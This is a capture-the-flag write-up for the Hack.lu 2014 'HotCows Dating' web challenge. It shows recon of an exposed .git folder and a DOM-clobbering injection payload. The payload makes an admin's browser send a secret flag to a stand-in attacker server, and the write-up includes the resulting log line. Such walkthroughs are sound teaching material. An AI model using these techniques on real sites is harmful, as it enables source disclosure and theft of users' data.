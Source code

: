 # Hack.lu CTF 2014: HotCows Dating

**Category:** Web
**Points:** 400
**Author:** qll
**Description:**

> If you want to take a break from all the hard work, you've come to the right place. Many things have been said about this dating service. Some say it holds your greatest desires, some say it is merely disgusting. All of it is probably true, but see yourself… https://wildwildweb.fluxfingers.net:1401
>
> **Hint:** Let’s start with an obvious hint: What do we tell search engines about cow love? “No no”.
>
> **Note:** The support uses Chromium (37) which does support CSP, does not have any particularly interesting extensions and is most certainly no Internet Explorer. Support also does not see anything else than you. They really just visit the cow’s profile you give them.

## Write-up

<https://wildwildweb.fluxfingers.net:1401/> is a dating site for cows. After signing up for an account and logging in, we’re redirected to <https://wildwildweb.fluxfingers.net:1401/?p=internal> where we can choose a hot, single cow to chat with. Selecting ‘Rosie’ brings us to `https://wildwildweb.fluxfingers.net:1401/?p=chat#Rosie` which displays a chat interface:

![](chat.jpg)

The ‘Report a Problem’ button links to `https://wildwildweb.fluxfingers.net:1401/?p=report` where you can enter the name of a cow and a description of the issue you’re having.

![](report.jpg)

Some further site recon reveals an interesting `robots.txt` file:

```bash
$ curl https://wildwildweb.fluxfingers.net:1401/robots.txt
User-agent: *
Disallow: /index.php?api=*
Disallow: /.git/
```

And sure enough, their entire `.git` folder is available at `https://wildwildweb.fluxfingers.net:1401/.git/`. Let’s download the whole thing:

```bash
$ wget -r https://wildwildweb.fluxfingers.net:1401/.git/
```

This is a so-called _bare Git repository_: it contains the repository data but not the actual files. Luckily it’s possible to extract those:

```bash
$ ls -la
total 0
drwxr-xr-x   3 mathias  staff  102 Oct 22 16:57 .
drwxr-xr-x   6 mathias  staff  204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff  476 Oct 22 17:00 .git

$ git config --local --bool core.bare false

$ git checkout -f

$ ls -la
total 24
drwxr-xr-x  12 mathias  staff   408 Oct 22 17:03 .
drwxr-xr-x   6 mathias  staff   204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff   476 Oct 22 17:03 .git
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 api
-rw-r--r--   1 mathias  staff  1499 Oct 22 17:03 cfg.php
drwxr-xr-x   3 mathias  staff   102 Oct 22 17:03 css
-rw-r--r--   1 mathias  staff   555 Oct 22 17:03 index.php
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 js
drwxr-xr-x   4 mathias  staff   136 Oct 22 17:03 lib
-rw-r--r--   1 mathias  staff    57 Oct 22 17:03 robots.txt
drwxr-xr-x   7 mathias  staff   238 Oct 22 17:03 static
drwxr-xr-x  10 mathias  staff   340 Oct 22 17:03 templates
```

Now we have access to the full source code for the site.

Studying the code reveals that the flag is messaged to premium account users when they start a new chat session. See the `page.firstMessage` function in `js/pages/chat.js`. Since there’s no way for us to get a premium account, we’ll have to find a way to have a premium user do this for us, and then leak the flag somehow.

We guessed that the ‘report a problem’ functionality would cause a logged-in site administrator to visit the profile for the cow whose name you enter. What if we can get a cross-site scripting (XSS) vector in there?

Eventually, this is the cow name we entered (explanation follows):

```
https://our-server.example.com/<form name=getElementById></form>
```

We assumed that this would cause the server admin to visit the following URL:

```
https://wildwildweb.fluxfingers.net:1401/?p=chat#https://our-server.example.com/<form name=getElementById></form>
```

And indeed – a few moments later we got a hit on our server:

```
149.13.33.84 - - [22/Oct/2014 15:51:58] "GET /%3Cform%20name=getElementById%3E%3C/form%3E%20(PREM_flag%7Bcows_need_love_too!%7D) HTTP/1.1" 404 -
```

After URL-decoding, that becomes:

```
<form name=getElementById></form> (PREM_flag{cows_need_love_too!})
```

The flag is `flag{cows_need_love_too}`. But why on earth did this work?!

The `page.view` function around line 134 of `js/pages/chat.js` contains this snippet:

```js
cow_name = location.hash.slice(1);
/* … */
temp_main = new Template('cow.html');
temp_main.assign(cow_name, 'cow');
temp_main.render();
```

`location.hash.slice(1)` is the part of the URL following `#`, which is under our control. Since this value is never sanitized, this creates an XSS vulnerability. However, the site is sending a CSP header which disallows inline scripts:

```http
Content-Security-Policy: default-src 'none'; img-src 'self'; script-src 'self'; style-src 'self'; connect-src 'self'
```

So injecting scripts won’t work, but we can still insert arbitrary HTML. So why did we inject `<form name=getElementById></form>`, of all things? When the above code is executed, and the `<form>` is inserted into the DOM, we’ve successfully [clobbered](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/) `document.getElementById`: it is now a reference to the injected `<form>` element rather than the DOM method the rest of the script expects. That’s why the next line throws an exception:

```js
btn_logout = document.getElementById('btn-logout');
```

Since the error is not caught using `catch`, the rest of the code in `page.view` never executes. This line, for example, is never reached:

```js
temp = new Template('message.html');
```

As a result, the global `temp` variable maintains its previous value, which is a reference to the built-in `location` object because of this line in `js/router.js`:

```js
router.route((m = /p=(\w+)/.exec(temp=location)) ? m[1] : 'index',
       (!!temp.hash) ? temp.hash.slice(1) : undefined);
```

When the page was loaded, `js/pages/chat.js` set up a timer to call `page.firstMessage` after a second:

```js
setTimeout(page.firstMessage, 1000);
```

The `page.firstMessage` function looks like this:

```js
/**
 * Greet the user after a while to avoid suspicion.
 */
page.firstMessage = function firstMessage() {
  if (!!temp) { // if template loaded
    temp.assign('system', 'class');
    temp.assign('In chat with', 'name')
    message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
    temp.assign(message, 'msg');
    page.appendMessage(temp);
    temp.assign('her', 'class');
    temp.assign(cow_name, 'name')
    temp.assign(page.chatAnswer('', cow_name), 'msg');
    page.appendMessage(temp);
  } else {
    // wait some more
    setTimeout(page.firstMessage, 1000);
  }
};
```

`temp.assign` is supposed to refer to the custom `Template.prototype.assign` method as defined in `js/template.js`, but because `temp` is now a reference to `location`, it’s actually [`location.assign`](https://html.spec.whatwg.org/multipage/browsers.html#dom-location-assign).

Note that thanks to our DOM clobbering attack, the call to `page.appendMessage` throws an exception, since it attempts to use `document.getElementById`. As a result, the rest of the code in `page.firstMessage` is never executed. This leaves the following code:

```js
temp.assign('system', 'class');
temp.assign('In chat with', 'name')
message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
temp.assign(message, 'msg');
page.appendMessage(temp); // ← This throws an exception.
// The code below is never reached.
```

Another thing to keep in mind is that browsers batch successive calls to `location.assign` together. For example, this HTML document redirects you to `https://example.com/?q=b` and not `https://example.com/?q=a`:

```html
<script>
  location.assign('https://example.com/?q=a');
  location.assign('https://example.com/?q=b');
</script>
```

Similarly, only the last `temp.assign` call is effective:

```js
temp.assign(message, 'msg');
```

That’s good news, because it contains the flag! Now you know why/how that ‘exploit’ we showed you earlier works. Here it is one more time:

```
https://our-server.example.com/<form name=getElementById></form>
```

Isn’t it beautiful?

## Other write-ups and resources

* [More info about _DOM clobbering_, the technique used to solve this challenge](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)
